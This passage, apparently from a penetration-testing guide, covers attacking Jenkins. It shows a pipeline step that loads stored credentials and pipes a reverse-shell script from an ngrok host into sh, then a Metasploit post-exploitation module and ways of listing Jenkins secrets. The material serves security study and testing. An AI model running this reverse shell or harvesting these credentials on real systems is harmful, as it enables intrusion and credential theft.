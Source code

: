 ```bash
            withCredentials([usernamePassword(credentialsId: 'amazon', usernameVariable: 'USERNAME', passwordVariable: 'PASSWORD'),
                     string(credentialsId: 'slack-url',variable: 'SLACK_URL'),]) {
                sh '''
                    curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh PASS
                '''
            }
        }
    }

    post { 
        always { 
            cleanWs()
        }
    }
}
```

## Post Exploitation

### Metasploit

```
msf> post/multi/gather/jenkins_gather
```

### Jenkins Secrets

You can list the secrets accessing `/credentials/` if you have enough permissions. Note that this will only list the secrets inside the `credentials.xml` file, but **build configuration files** might also have **more credentials**.

If you can **see the configuration of each project**, you can also see in there the **names of the credentials (secrets)** being use to access the repository and **other credentials of the project**.

![](<../../.gitbook/assets/image (36).png>)

#### From Groovy

{% content-ref url="jenkins-dumping-secrets-from-groovy.md" %}
[jenkins-dumping-secrets-from-groovy.md](jenkins-dumping-secrets-from-groovy.md)
{% endcontent-ref %}

#### From disk
